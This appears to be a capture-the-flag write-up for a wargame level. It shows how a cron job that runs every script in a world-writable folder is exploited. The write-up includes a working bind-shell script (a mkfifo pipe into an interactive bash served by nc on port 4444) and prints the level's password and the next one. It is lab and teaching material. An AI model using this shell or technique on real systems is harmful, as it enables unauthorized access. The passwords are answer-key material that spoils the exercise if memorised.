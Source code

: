 # LEVEL 05

> [!TIP]
> user: `level05` <br>
> pass: `ne2searoevaevoem4ov4ar8ap`

## STEP 01

As we log in, a message appear to us

`You have new mail.`

According to this [link](https://superuser.com/a/306180), email can be found at
/var/mail/$USER

## STEP 02

Executing `cat /var/mail/$USER` output a cron job, running every 2 minutes
and pointing in to `/usr/sbin/openarenaserver`

```bash
cat /var/mail/level05
#*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
cat /usr/sbin/openarenaserver
##!/bin/sh
#
#for i in /opt/openarenaserver/* ; do
#        (ulimit -t 5; bash -x "$i")
#        rm -f "$i"
#done
```

Making a quick ls show us the permission of the folder mentioned in the script
above

```bash
ls -la /opt/openarenaserver
#drwxrwxr-x+ 2 root root 40 Dec  2 02:10 .
```

> [!NOTE]
> The security issue could be perhaps, this ugly for loop with this blob that
> execute everything in the folder `/opt/openarenaserver`, with a limit of 5 fd,
> that is writable to other user

## STEP 03

1. creating a little script

```bash
#!/bin/bash

# remove previous fifo
rm -f /tmp/f
# make fifo file
mkfifo /tmp/f
# 1. output any input, from fifo, to
# 2. bash, outputing STDOUT and STDERR to
# 3. nc listening on everything, on port 4444, output all ouput to fifo
cat /tmp/f | /bin/bash -i 2>&1 | nc -l 0.0.0.0 4444 > /tmp/f
```

2. put it in **/opt/openarenaserver**, and wait
for it to be deleted

> [!WARNING]
> Don't forget to make it executable by `chmod +x` it

3. quickly do a `nc localhost 4444` to have a shell

> [!TIP]
> you can do a `watch -n2 ls -la /opt/openarenaserver` to monitor the folder

> [!IMPORTANT]
> the password for the next level is `viuaaale9huek52boumoomioc`
